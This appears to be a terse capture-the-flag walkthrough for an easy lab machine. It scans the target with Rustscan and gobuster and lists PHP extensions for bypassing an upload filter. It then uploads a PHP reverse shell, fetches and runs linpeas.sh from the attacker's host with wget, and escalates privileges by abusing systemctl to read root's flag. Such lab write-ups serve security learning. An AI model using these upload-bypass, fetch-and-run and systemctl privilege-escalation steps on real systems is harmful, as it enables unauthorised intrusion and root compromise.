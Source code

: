 

## Level: Easy


1. Scan with Rustscan

```bash 
rustscan -a 10.10.187.239 --range 1-65535 -- -A -T4 
```

2. Scan the web at port 3333 with gobuster:
```bash 
gobuster dir -u http://10.10.187.239:3333/ -w  /Users/phulelouch/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

3. Upload file, scan the extension list:

```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```

4. Upload file php by pentestmonkey, scan the endpoint

```bash
gobuster dir -u http://10.10.187.239:3333/internal/ -w  /Users/phulelouch/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

5. have shell, read the user.txt
6. upload linpeas.sh

- At host:
```bash
python3 -m http.server 8888
```
- At machine:
```bash
cd /tmp; wget http://ip:8888/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh
```

7. exploit the systemctl
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

